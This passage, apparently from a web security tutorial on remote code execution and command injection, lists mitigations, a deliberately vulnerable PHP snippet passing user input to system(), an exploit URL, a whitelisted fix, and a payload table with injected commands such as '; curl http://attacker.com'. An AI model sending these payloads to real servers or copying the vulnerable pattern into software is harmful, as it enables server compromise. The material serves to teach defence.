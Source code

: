 Use container isolation or chroot jails.

Web Application Firewall (WAF):

Use WAF to block suspicious patterns and payloads.

Patch Regularly:

Keep libraries, web servers, and runtimes updated.

📌 Example
🔓 Vulnerable Code in PHP
php
Copy
Edit
<?php
$cmd = $_GET['cmd'];
system($cmd);
?>
URL to exploit:

bash
Copy
Edit
http://example.com/vuln.php?cmd=whoami
🔐 Secure Version
php
Copy
Edit
<?php
$allowed_cmds = ['uptime', 'date'];
if (in_array($_GET['cmd'], $allowed_cmds)) {
    system(escapeshellcmd($_GET['cmd']));
} else {
    echo "Invalid command.";
}
?>
✅ Bonus – Payload Examples
Purpose	Payload
Command execution	; whoami
Outbound request	; curl http://attacker.com
Time delay	; sleep 10
Blind command	; ping -c 1 attacker.com



7. Command Injection

      ⚠️ Command Injection
Definition:
Command Injection occurs when an attacker is able to execute arbitrary system commands on a server due to improper handling of user-supplied input in command execution functions.

💥 Impact
Full system compromise (similar to RCE).

